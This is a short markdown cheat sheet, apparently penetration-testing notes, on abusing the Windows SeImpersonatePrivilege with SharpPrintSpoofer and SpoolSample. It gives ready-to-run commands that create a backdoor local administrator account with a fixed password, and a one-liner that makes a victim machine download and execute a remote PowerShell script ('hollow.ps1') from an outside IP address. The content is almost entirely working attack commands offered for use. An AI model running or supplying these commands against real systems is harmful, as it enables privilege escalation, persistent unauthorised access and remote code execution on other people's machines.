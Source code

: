 # Leveraging SeImpersonatePrivilege

### Method 1

- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
```
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"
```

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`

### Method 2 - two in one
*Note: The SpoolSampleModified including already the functionality of `SharpPrintSpoofer.exe`, thus this one binary can handle the privielge escalation.*

Transfer to victim and run:
- `SpoolSampleModified.exe <hostname> <hostname>/pipe/test "C:\Windows\System32\cmd.exe /c powershell iex(iwr http://192.168.45.195/hollow.ps1 -useb)"`

